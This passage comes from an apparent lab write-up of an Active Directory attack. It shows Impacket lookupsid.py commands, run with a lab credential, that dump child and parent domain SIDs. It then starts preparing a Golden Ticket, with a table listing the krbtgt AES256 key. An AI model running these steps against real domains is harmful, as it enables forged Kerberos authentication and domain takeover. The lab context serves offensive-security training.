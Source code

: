 ### 🧾 krbtgt SID Dump

<p class="indent-paragraph">
  With privileged SYSTEM access on the Child Domain Controller, the next step was to retrieve the domain SIDs for both the child and parent domains using Impacket’s <code>lookupsid.py</code>script. This step is essential for forging a <code>Golden Ticket</code> in the next phase of the attack, as we’ll need the
  SID of the parent domain and the <code>RID</code> of the target account.
</p>

```
~$ proxychains /root/.local/bin/lookupsid.py child/corpmngr:'User4&*&*'@child.warfare.corp
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Brute forcing SIDs at child.warfare.corp
[*] StringBinding ncacn_np:child.warfare.corp[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3754860944-83624914-1883974761

~$ proxychains /root/.local/bin/lookupsid.py child/corpmngr:'User4&*&*'@warfare.corp
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Brute forcing SIDs at warfare.corp
[*] StringBinding ncacn_np:warfare.corp[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3375883379-808943238-3239386119
```

### 🎟 Golden Ticket Forgery

<p class="indent-paragraph">
  With all necessary artifacts in hand, a Golden Ticket was forged using Impacket’s<code>ticketer.py</code>script. This forged Kerberos ticket enables authentication as a highly privileged account in the parent domain without requiring the original user’s credentials. The following critical components were collected for ticket creation:
</p>

<div style="overflow-x:auto; margin: 2em 0;">
  <table style="border-collapse: collapse; border: 1px solid #444; width:100%; table-layout:fixed;">
    <thead>
      <tr>
        <th style="border: 1px solid #555; padding: 8px 16px; text-align: center; width:30%;">Component</th>
        <th style="border: 1px solid #555; padding: 8px 16px; text-align: center; width:70%;">Value</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td style="border: 1px solid #555; padding: 8px 16px;">krbtgt AES256</td>
        <td style="border: 1px solid #555; padding: 8px 16px; word-break: break-all; white-space: normal;">
          ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
        </td>
      </tr>
      <tr>
        <td style="border: 1px solid #555; padding: 8px 16px;">Child Domain SID</td>
        <td style="border: 1px solid #555; padding: 8px 16px; word-break: break-all; white-space: normal;">
          S-1-5-21-3754860944-83624914-1883974761
        </td>
      </tr>
      <tr>
        <td style="border: 1px solid #555; padding: 8px 16px;">Parent Domain SID</td>
        <td style="border: 1px solid #555; padding: 8px 16px; word-break: break-all; white-space: normal;">
          S-1-5-21-3375883379-808943238-3239386119
        </td>
      </tr>
    </tbody>
  </table>
